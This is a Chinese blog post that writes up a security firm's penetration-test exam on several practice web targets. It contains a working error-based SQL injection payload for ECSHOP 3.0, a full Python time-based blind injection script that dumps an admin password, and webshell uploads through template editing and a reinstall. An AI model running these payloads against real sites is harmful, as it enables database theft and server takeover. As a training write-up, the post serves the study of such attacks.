 ```yaml
---
layout: post
title: 四叶草安全笔试WP
date: 2017-08-31
tags: 笔试Write-Up
---
```


### 前言

夏令营结束后，不停的在面试、笔试以及准备面试、笔试。顺带被小伙伴带着吃鸡、到处浪。emmmmm......终于体会到了充实又放荡的切切实实的暑假生活。以至于准备填的坑还没填，不过呢，快开学了。很快就能有大把的时间填完。争取9月中之前整理完毕。今天的笔试正好是这种给链接去渗透的题目，而且需要WP，正好拿来写博客（才不是我懒的再写2333

### My Awesome Photoblog

嗯。。。第一题就跪了，我还是很心累的。扫描了网页目录，没有什么特殊发现，那就看看网页的逻辑。应该有一个index.php，一个cat.php，一个all.php，还有一个login.php。

index.php和all.php没有参数，所以没有思路。

cat.php参数是id，最开始认为是sql注入，所以使用if(database(),sleep(5),sleep(5))这种最简单的判断方式看是否存在注入，然而并没有。然后发现id=1=2=3，会不会是文件包含，然后尝试了几个伪协议，无果。

![1](/images/posts/seclover/1.png)

好吧，那我看login.php吧，试试注入，依旧无果。那就跪了。先放一边，其他做了如果有时间再来试试看是否是过滤很多的注入。

![1](/images/posts/seclover/2.png)

后来谷歌到了原题，admin的密码居然没有改，成功登陆。可是发现上传很奇怪，后缀是png,文件头也是png的文件头十六进制，去掉敏感字符内容依旧不能上传。。。没有办法了。切切实实的跪了

### Hi,Pentester?

还是一样的，一言不合扫后台，除了一个登陆界面，也没扫到什么有用的东西。

简单查看一下登陆界面，没有明显的注入，还是先看看其他逻辑，about里面有address.txt下载，下了之后发现是四叶草的电话号码。因为news.php里面有我更感兴趣的点，所以这个号码暂时先放着。可能是简单组合字典弱口令。

news.php感觉文件包含可能性很大啊，如图：

![1](/images/posts/seclover/3.png)

尝试了几个伪协议，均无果。

发现一个登陆界面，SQL尝试也无果。放弃

### 订餐

嗯。。。有登陆注册还以为有密码重置漏洞，结果居然不能发重置邮件出去，直接抓包跳到重置布置表示验证失效，很明显还是需要什么参数或者验证成功后的cookie的啊，但是没办法发邮件等于这条思路是不可能的。

后来发现有缓存文件夹，里面有一大堆php文件，但是无法下载源代码。

install.php因为上锁了，而且判断是否上锁后退出了函数没办法绕过。

注册新用户登录后，留言可以了但是尝试XSS失败，但是可以用XFF控制ip，但是并没有什么用，不能注入也不能命令执行。不过就算成功估计也只能X自己，管理员不知道能不能看见这个留言。

修改密码也是，因为是cookie认证，没办法重置admin的密码。

找回密码发现可能有盲打XSS，写个iframe过去试试。但是并没有返回。

### ECSHOP

目录扫描一下，发现有fckeditor，但是没有什么用，upload.php似乎被删掉了。install同样锁死了。发现首页最下面有个版本信息，遂看了下版本，是3.0，于是百度一下已知漏洞，发现有人审计后发现flow.php的order_id存在注入，于是测试一下，确实存在。

构造语句注入得到admin账户以及密码，但是密码在线md5未解出来。如图：

![1](/images/posts/seclover/4.png)

账户：admin:5009#

密码hash：a684073c5b42a5eb8461a9d6ae5c71

payload:
```
1 or extractvalue(1,concat(0x7e,(select distinct concat(0x23,user_name,0x3a,ec_salt,0x23)from ecs_admin_user limit 0,1))) or 1#
```

### RAICO

老规矩扫目录，发现有个后台登录界面，而且还有盲注点。证明payload如下

![](/images/posts/seclover/5.png)

界面会停止5秒再响应,所以存在时间盲注。于是写了一个脚本

```
# encoding=utf-8
import httplib
import time
import string
import sys
import random
import urllib

database = 'web'
tables = 'rco_admin'
fields = ''
data = ''

dbpayload = '\' and if(ascii(mid(version(),%d,1))=%d'
tablepayload = "\' and if(ascii(mid((select(concat(table_name))from(information_schema.tables)where(table_schema=\'" + \
    database + "\')limit 0,1),%d,1))=%d"
fieldspayload = "\' and if(ascii(mid((select(concat(column_name))from(information_schema.columns)where(table_name=\'" + tables + "\')limit 2,1),%d,1))=%d"
finalpayload = "\' and if(ascii(mid((select(admin_pw)from(rco_admin )limit 0,1),%d,1))=%d"

headers = {'Content-Type': 'application/x-www-form-urlencoded'}
print '[%s] Start to retrive dbname:' % time.strftime('%H:%M:%S', time.localtime())
flag = ''
isEnd = False
for i in range(1, 36):
    if isEnd:
        break
    isEnd = True
    for j in range(33, 127):
        url = '/admin/login.php'
        start_time = time.time()
        data = "UserName=admin" + finalpayload % (i, j) + \
            ",sleep(5),1)#&PW=admin&btnLogin=+%B5%C7%C8%EB+"
        conn = httplib.HTTPConnection(
            'ed15a272730fcb59.yunyansec.com', timeout=60)
        conn.request(method='POST', url=url, body=data, headers=headers)
        html_doc = conn.getresponse().read
        # print html_doc
        conn.close()
        print '.',
        print data
        if (time.time() - start_time > 5):
            isEnd = False
            flag += chr(j)
            print '[in progress]', flag, '\n'
            break
        time.sleep(0.01)
print '[Done] The Flag is %s \n' % flag
time.sleep(20)
```

数据库:`web`

表:`admin_id``admin_name``admin_pw`

密码：`b4fe6578538b526`

最开始写这种聚合、嵌套语句写的太久了。花了一两个小时修修改改才跑到表名。后来发现navicat有美化sql后，就写的比较快了。

### cmseasy

有点无语。。。admin-admin弱密码登录成功了。

还准备申请一个账号重置管理员密码的

修改模板抓包保存为shell。

![](/images/posts/seclover/6.png)
![](/images/posts/seclover/7.png)

保存文件的地址在GET的参数里。访问后POST请求即可。如上图

### myphp

又是模板。。。百度下载到v4.1的源码，审计一下。

看到安装的时候数据库名似乎存在注入，准备去试试，结果访问install.php时直接覆盖安装了。。。

![](/images/posts/seclover/8.png)

如图，之后重置管理员账户，进入后台。

![](/images/posts/seclover/9.png)

模板修改失败，但是找到一个上传点，直接上传php，获得shell

![](/images/posts/seclover/10.png)

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [四叶草安全笔试WP](http://RoyTse.github.io/2017/08/四叶草安全笔试WP/)  